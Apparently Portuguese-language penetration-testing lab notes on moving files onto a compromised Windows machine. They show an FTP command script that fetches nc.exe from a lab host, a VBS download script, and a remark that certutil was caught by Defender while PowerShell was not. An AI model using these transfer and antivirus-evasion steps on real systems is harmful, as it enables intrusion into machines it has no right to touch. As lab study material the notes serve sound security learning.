 OBS: Existe a opção de mget também, para obter diversos arquivos de uma vez

Para fazer isso de maneira não interativa, podemos informar o parâmetro "-s"

e salvar os seguintes comandos em um arquivo:

    open 192.168.0.253
    user offsec
    lab
    bin
    get nc.exe
    bye
Salvando esses comandos em um arquivo chamado "comandos_ftp.txt", executar :

ftp -n -v -s:comandos_ftp.txt

## HTTP

### VBS

Apartir deste script a gente consegue 

    type wget.vbs
    
    strUrl = WScript.Arguments.Item(0) 
    StrFile = WScript.Arguments.Item(1) 
    Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 
    Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 
    Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 
    Const HTTPREQUEST_PROXYSETTING_PROXY = 2 
    Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts 
     Err.Clear 
     Set http = Nothing 
     Set http = CreateObject("WinHttp.WinHttpRequest.5.1") 
     If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") 
     If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") 
     If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") 
     http.Open "GET", strURL, False 
     http.Send 
     varByteArray = http.ResponseBody 
     Set http = Nothing 
     Set fs = CreateObject("Scripting.FileSystemObject") 
     Set ts = fs.CreateTextFile(StrFile, True) 
     strData = "" 
     strBuffer = "" 
     For lngCounter = 0 to UBound(varByteArray) 
     ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) 
     Next 
     ts.Close 


### certutil

OBS: Esse cara complicou a vida por conta do AV Defender em tempo real... Foi pego. do powershell funciona normalmente
